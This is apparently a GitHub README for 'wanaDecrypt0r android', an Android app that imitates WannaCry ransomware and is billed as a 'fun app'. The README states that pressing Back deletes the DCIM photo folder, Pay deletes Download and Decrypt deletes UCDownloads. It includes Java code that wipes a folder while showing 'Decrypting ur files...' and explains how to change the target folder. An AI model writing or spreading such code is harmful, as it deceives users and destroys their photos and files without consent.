


#WanaDecrypt0r Android#

__Application Info :__

App Name : wanaDecrypt0r android

Developer : Wahyu Hidayat

----

__What is wanaDecrypt0r android ?__

wanaDecrypt0r android is a fun app with simple command to remove some folder on sdcard.

----

__What main funchtion of this app ?__

This is a main funchtion of wanaDecrypt0r android :

```
Back Pressed = Delete DCIM folder on sdcard
Pay btn pressed = Delete Download folder on sdcard
Decrypt btn pressed = Delete UCDownloads folder
```

You can change the folder what should deleted with edit the MainActivity.java of this source app example :

```
	// Decrypt button action
   // Change UCDownload folder if want to change path deleted
	public void dec(View v){
		File dec=new File(android.os.Environment.getExternalStorageDirectory()+"/UCDownloads");
		if (dec.isDirectory()){
			String [] childern = dec.list();
			for (int i=0;i<childern.length;i++){
				new File(dec, childern[i]).delete();
			}
		}
		dec.delete();
		Snackbar.make(findViewById(R.id.dec),"Decrypting ur files...",Snackbar.LENGTH_LONG).show();
	}
```

----

__Screenshots :__




